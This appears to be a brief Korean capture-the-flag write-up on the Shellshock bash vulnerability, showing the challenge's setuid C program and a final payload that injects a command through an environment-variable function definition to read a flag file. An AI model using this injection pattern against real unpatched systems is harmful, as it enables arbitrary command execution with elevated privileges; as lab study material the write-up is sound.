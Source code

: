 # shellshock
shellshock 에 대한 설명은 다른 사이트에서 참조하길 바란다.&nbsp;
bash 는 취약점이 존재하는 bash 로, 환경변수를 통해 함수를 정의한 후 임의의 명령을 추가하면 해당 명령이 실행된다.

```c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```

shellshock 파일이 실행될 때, 취약한 bash 로 /bin/cat flag 가 parsing 되어 실행된다.

최종 페이로드는 다음과 같다.

env x='() { :;}; /bin/cat flag' ./shellshock

